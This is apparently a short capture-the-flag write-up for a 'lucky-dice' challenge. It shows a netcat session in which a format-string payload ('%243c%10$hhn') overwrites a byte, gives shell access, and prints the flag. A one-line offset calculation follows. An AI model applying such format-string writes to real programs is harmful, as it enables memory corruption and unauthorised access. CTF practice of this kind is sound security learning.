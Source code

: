 # lucky-dice  
```
$ nc mc.ax 31849
How many dice do you want to roll? 10
Use a lucky charm: %243c%10$hhn
applying magic ✨✨✨                                                                                                                                                    
┌───────┐
│ (null) │
│ (null) │
│ (null) │
└───────┘
winner!
ls
flag.txt
run
cat flag.txt
hope{tellin_ya_its_rigged_a02b54785626f795}
```
243 = 0x100 + 0xc - 0x19  
flag: `hope{tellin_ya_its_rigged_a02b54785626f795}`  